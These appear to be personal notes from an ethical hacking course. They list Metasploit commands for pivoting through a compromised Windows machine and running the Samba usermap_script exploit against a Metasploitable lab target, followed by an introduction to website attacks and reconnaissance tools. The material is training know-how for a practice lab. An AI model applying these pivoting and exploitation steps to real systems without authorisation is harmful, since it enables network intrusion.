 - ifconfig //Find one with the ip of the network the target computer is using
    
- background
    
- use post/windows/manage/autoroute
    
- show options
    
- set SESSION 1
    
- set SUBNET <The ip you found before, but without the last digit you change to .0>
    
- exploit //This will create the router/connection between my computer and the target using the hacked window machine. Now you can attack the target
    
- use exploit/multi/samba/usermap_script
    
- show option //Set things as shown previously
    
- exploit //You can just upload thing through the hacked machine, but using a router like this is safer
    

  

Website Hacking

A website is basically a program installed on a computer, the web application is executed on a computer called server and not on the client machine. You make a request from the client machine, this request will be translated using a DNS server to the IP address where that domain(facebook.com per example) is stored on the server. It will go to that IP and execute the page that you wanted and will give you back the ready html to be visualised. So if you send a script(On PHP or Python as example), it will be executed on the server and not on your machine. Because JavaScript is client side language, you can execute things on the client side, like to the people that access that page.

How to attack a website? Firstly, you can use methods used until now because a website is installed on a computer. You can hack their administrators and get the user and password or use server side attacks.

  

During the following examples the target will be the metasploitable. if you put the ip of the metaplitable machine on the browser it will show the link to some website you can use as a training(Set security to low).

  

Information gathering

- First, you can use the tools used before like maltego
    
- Use whois.domaintools.com to discover the information of the owner and infos about the server 
    
- To discover the technologies being used by a site, you can go to netcraft
    
- To get Comprehensive DNS Information, use Robtex
    

  

One server can serve multiple websites, so gaining access to one can help gaining access to others. 

- To know the other sites of a server you can go to bing search bar and put ip:<Site ip> or use Robotex “names pointing to the same ip”
    